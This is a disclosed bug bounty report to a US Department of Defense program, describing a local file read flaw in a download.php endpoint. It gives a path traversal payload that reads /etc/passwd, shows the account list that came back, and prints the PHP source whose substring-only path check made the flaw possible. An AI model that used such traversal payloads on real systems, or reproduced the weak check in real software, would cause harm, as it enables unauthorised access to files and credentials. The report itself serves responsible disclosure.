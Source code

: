 # Local file read at https://████/ [HtUS]

## Report Details
- **Report ID**: 1626210
- **URL**: https://hackerone.com/reports/1626210
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-07-05T14:02:01.113Z
- **Disclosed**: 2022-10-14T13:51:37.555Z

## Reporter
- **Username**: sudi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Heyy there,
I have found local file read vulnerability in your website https://█████/

This the vulnerable endpoint https://██████████/download.php?filePathDownload=data_products and the `filePathDownload` path is vulnerable which allows an attacker to read any local files.

There was some sort protection when I first checked this endpoint, as it was returning 403 forbidden status code, upon trying something similar as the hacker has shown in report #1542734 . But I was able to bypass the protection in place.


---------------------

**Steps to reproduce:**

Just visit this url , which will display the contents of the `/etc/passwd` file:

https://████████/download.php?filePathDownload=data_products/../../../../../etc/passwd


Response:

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
chrony:x:998:995::/var/lib/chrony:/sbin/nologin
ec2-user:x:1000:1000:Cloud User:/home/ec2-user:/bin/bash
saslauth:x:996:76:Saslauthd user:/run/saslauthd:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
sssd:x:995:993:User for sssd:/:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sustainment:x:1001:1001::/home/sustainment:/bin/bash
emerg:x:1002:1002:Sustainment Linux Emergency Acct:/home/emerg:/bin/bash
cwagent:x:993:992::/home/cwagent:/bin/bash
ssm-user:x:1003:1004::/home/ssm-user:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
drupal:x:1004:1005::/home/drupal:/bin/bash
splunk:x:1005:1006:Splunk Server:/opt/splunkforwarder:/bin/bash
mfe:x:992:1007::/home/mfe:/sbin/nologin
aoc:x:991:991:AWS OTel Collector:/home/aoc:/sbin/nologin
```



Also the content of `/etc/hosts`

```
127.0.0.1   localhost localhost.localdomain localhost4 localhost4.localdomain4
::1         localhost localhost.localdomain localhost6 localhost6.localdomain6

████ ███████
████████
███████
███████
█████████
██████████
████████

```



You can also read the source code for the available php files such as index.php,download.php

Here's the source code for `download.php`
https://█████/download.php?filePathDownload=data_products/../download.php

```php
<?php

function checkPath($path){

  if(!contains($path, "data_products")){

    ob_clean();
    http_response_code(403);
	throw new RuntimeException('File Not Found Error');  
    exit();
    
  }
		
	
}

function startsWith( $haystack, $needle ) {
     $length = strlen( $needle );
     return substr( $haystack, 0, $length ) === $needle;
}

function contains( $haystack, $needle ) {
     return strpos($haystack, $needle) !== false;
}

if(isset($_REQUEST["file"]) && isset($_REQUEST['linkpath'])){
 $linkpath=$_REQUEST['linkpath'];
    echo $file = htmlspecialchars(urldecode(base64_decode($_REQUEST["file"]))); // Decode URL-encoded string
    echo   $filepath =  $linkpath.'/'.$file;
    checkPath($filepath);
    if(is_file($filepath)){
                    ob_clean();
                    header("Pragma: public");
                    header("Expires: 0");
                    header("Cache-Control: must-revalidate, post-check=0, pre-check=0");
                    header("Cache-Control: private",false);
                   //header('Content-Type: application/pdf');
                    header('Content-Type: application/octet-stream');
                    header("Content-Disposition: attachment; filename=\"".basename($filepath)."\";");
                    header("Content-Transfer-Encoding: binary");
                    header("Content-Length: ".filesize($filepath));
                    readfile($filepath);
    }else{
    echo 'File Not Found ';
    }
}
if(isset($_REQUEST["filedownload"])){

   echo  $filepath = htmlspecialchars(urldecode(base64_decode($_REQUEST["filedownload"]))); // Decode URL-encoded string
   die;//  $filepath = $_REQUEST["filedownload"];
   checkPath($filepath);
    if(is_file($filepath)){
                    ob_clean();
                    header("Pragma: public");
                    header("Expires: 0");
                    header("Cache-Control: must-revalidate, post-check=0, pre-check=0");
                    header("Cache-Control: private",false);
                    header('Content-Type: application/octet-stream');
                    header("Content-Disposition: attachment; filename=\"".basename($filepath)."\";");
                    header("Content-Transfer-Encoding: binary");
                    header("Content-Length: ".filesize($filepath));
                    readfile($filepath);
    }else{
    echo 'File Not Found ';
    }
}

if(isset($_REQUEST["filePathDownload"])){

   echo  $filepath = htmlspecialchars(urldecode($_REQUEST["filePathDownload"]));
    checkPath($filepath);
     
    if(is_file($filepath)){
                    ob_clean();
                    header("Pragma: public");
                    header("Expires: 0");
                    header("Cache-Control: must-revalidate, post-check=0, pre-check=0");
                    header("Cache-Control: private",false);
                    header('Content-Type: application/octet-stream');
                    header("Content-Disposition: attachment; filename=\"".basename($filepath)."\";");
                    header("Content-Transfer-Encoding: binary");
                    header("Content-Length: ".filesize($filepath));
                    readfile($filepath);
    }else{
    echo 'File Not Found ';
    }
}

?>
```


-----------------

## Impact

Impact:

An attacker can read any local files,I haven't looked much into the local files but as there many users in the system I might be able to get access to something very sensitive.

Thankyou
Regards
Sudhanshu

## Attachments
No attachments
